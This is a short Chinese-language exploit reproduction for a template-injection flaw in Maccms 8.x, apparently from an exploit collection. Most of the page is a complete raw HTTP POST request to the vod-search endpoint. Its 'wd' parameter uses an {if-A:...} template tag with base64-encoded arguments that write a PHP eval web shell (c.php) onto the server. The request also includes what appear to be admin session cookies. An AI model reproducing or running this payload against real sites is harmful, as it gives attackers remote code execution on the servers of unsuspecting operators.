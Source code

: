 Maccms 8.x post注入
===================

一、漏洞简介
------------

苹果cms 8.x 注入

二、漏洞影响
------------

Maccms 8.x

三、复现过程
------------

    POST /index.php?m=vod-search HTTP/1.1
    Host: 0-sec.org
    Content-Length: 500137
    Cache-Control: max-age=0
    Origin: http://word.o2oxy.cn
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Referer: http://word.o2oxy.cn/index.php?m=vod-search
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
    Cookie: Hm_lvt_ff7f6fcad4e6116760e7b632f9614dc2=1574418087,1574670614,1574673402,1575271439; Hm_lvt_137ae1af30761db81edff2e16f0bf0f8=1574418087,1574670615,1574673402,1575275889; pgv_pvi=8322096128; PHPSESSID=pr37r8fkshd854f8fnfep4ov53; adminid=1; adminname=admin; adminlevels=b%2Cc%2Cd%2Ce%2Cf%2Cg%2Ch%2Ci%2Cj; admincheck=2afdbd385cb6c2af162e6733f1b0e2d2
    Connection: close

    wd=uniona(这里a为80w个，可用Burp直接生成){if-A:print(fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29)}{endif-A
